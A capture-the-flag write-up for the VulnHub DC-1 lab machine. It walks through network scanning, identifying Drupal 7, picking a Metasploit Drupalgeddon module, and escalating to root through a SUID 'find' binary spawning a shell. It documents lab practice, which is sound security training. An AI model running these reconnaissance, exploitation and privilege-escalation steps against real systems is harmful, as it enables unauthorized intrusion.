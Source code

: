 use# DC-1

## 1.Enumeration

Let's scan for the ip address:

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.100	08:00:27:0e:16:d9	PCS Systemtechnik GmbH
192.168.56.113	08:00:27:b8:2f:68	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.113`

```bash
root@kali: nmap -sC -sV -p22,80,111,33997 -v -oN nmap.out 192.168.56.113

Nmap scan report for 192.168.56.113
Host is up (0.00046s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-server-header: Apache/2.2.22 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: B6341DFC213100C61DB4FB8775878CEC
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33997/tcp   status
|   100024  1          40014/tcp6  status
|   100024  1          47535/udp6  status
|_  100024  1          52850/udp   status
33997/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:B8:2F:68 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Exploring port 80 shows website is a Drupal CMS, so we need to exploit a drupal

for finding the version use the command below:

```bash
curl http://192.168.56.113/ | grep 'content="Drupal'

<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
```

## 2.Gaining Access


next we need to check any public exploit for this version :

```bash
root@kali: searchsploit drupal 7 | grep -i metasploit

Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                                              | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                                                              | php/webapps/44557.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                               | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                               | php/remote/44482.rb
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                                 | php/remote/46510.rb
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                                 | php/remote/46510.rb
Drupal Module CODER 2.5 - Remote Command Execution (Metasploit)                                                                       | php/webapps/40149.rb
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)
```

as it shows there are afew exploits with metasploit:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/349468c4-b34c-464b-9ddc-1213ba7a7a73)

i used `multi/http/drupal_drupageddon` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/7de0d071-2ffe-496b-bf0b-336f6516ec22)

## 3.Privilege Escalation

Search for any SUID binaries on the system  :

```bash
root@kali: find / -user root -perm /4000 2>/dev/null

/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

there is `find` binary here, so it can be easily exploited :

```bash
www-data@DC-1: find . -exec /bin/sh \; -quit

# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)

cd /root

cat thefinalflag.txt
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

this is how you can get root on the system.









